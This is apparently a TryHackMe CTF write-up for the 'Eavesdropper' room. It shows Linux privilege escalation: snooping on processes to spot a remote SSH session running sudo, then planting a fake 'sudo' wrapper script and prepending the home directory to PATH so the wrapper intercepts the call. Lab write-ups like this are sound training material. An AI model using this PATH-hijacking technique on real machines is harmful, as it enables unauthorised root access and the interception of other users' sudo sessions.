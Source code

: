 # TryHackMy Eavesdropper room:

https://tryhackme.com/room/eavesdropper

User frank is a member of sudo group but password is required to run sudo.

`$ id`

`$ sudo -l`

The room title is Eavesdropper so start to sniff the network activity with:

`$ watch -n 0.01 netstat -naplet`

There is a connection from 172.xx.xx.xx to port 22 periodically. Use ps to capture what is happen via ssh from 172.xx.xx.xx:

`$ while true; do sleep 0.01; ps auxe | grep SSH_CLIENT=172.xx.xx.xx | grep -v grep > process.out ; done`

The sudo is run via ssh - it looks like a password is given at 172.xx.xx.xx when the command is executed. Create sudo wrapper in HOME: 

```
$ cat $HOME/sudo

#!/usr/bin/bash
echo $@ >> b.out
/usr/bin/sudo id > /home/frank/id.out
```

Add HOME to PATH (via .profile & .bashrc) and wait for execution.

Check the /root with sudo wrapper.

Capture the flag :)
